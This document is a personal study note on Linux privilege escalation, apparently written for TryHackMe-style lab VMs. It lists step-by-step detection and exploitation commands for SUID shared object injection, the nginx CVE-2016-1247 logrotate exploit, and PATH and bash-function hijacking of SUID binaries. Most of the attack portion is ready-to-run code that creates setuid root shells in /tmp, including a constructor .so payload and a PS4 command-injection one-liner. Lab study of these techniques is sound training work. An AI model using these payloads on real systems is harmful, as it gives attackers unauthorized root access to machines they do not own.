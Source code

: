 #Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo #symlinks   #CVE-2016-1247 #Nginx #EnvironmentVariables #Apache #gcc #Find #strings #env
https://gtfobins.github.io/
# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries. e.g. `/usr/local/bin/suid-so`
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c` (make sure to use tabs not spaces, sometimes errors out)
9. In command prompt type:
```
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

[[VulnUniversity - THM]]

---
# Symlinks
#symlinks

[Nginx Exploit](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
#CVE-2016-1247 #Nginx

## **Detection**
Linux VM

1. In command prompt type: `dpkg -l | grep nginx`
2. From the output, notice that the installed nginx version is below 1.6.2-5+deb8u3.
3. Run `find / -type f -perm -04000 -ls 2>/dev/null`
	1. SUID bit must be set on `/usr/bin/sudo` also to exploit nginx

## **Exploitation**

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: `su root`
2. The root password is `password123`
3. Once escalated to root, in command prompt type: `su -l www-data`
4. In command prompt type:
```
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
```
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

---

# Environment Variables #1
#EnvironmentVariables #Apache #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env`
4. From the output, notice the functions used by the binary.

## **Exploitation**
Linux VM

Read [this](https://gtfobins.github.io/gtfobins/env/) for simpler exploit...

1. In command prompt type:
```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`

---

# Environment Variables #2
#EnvironmentVariables #env #find #strings 

## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries.
3. In command prompt type: `strings /usr/local/bin/suid-env2`
4. From the output, notice the functions used by the binary.

## **Exploitation Method #1**
Linux VM

1. In command prompt type:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```
2. In command prompt type:
`export -f /usr/sbin/service`
3. In command prompt type: `/usr/local/bin/suid-env2`

## **Exploitation Method #2**
Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```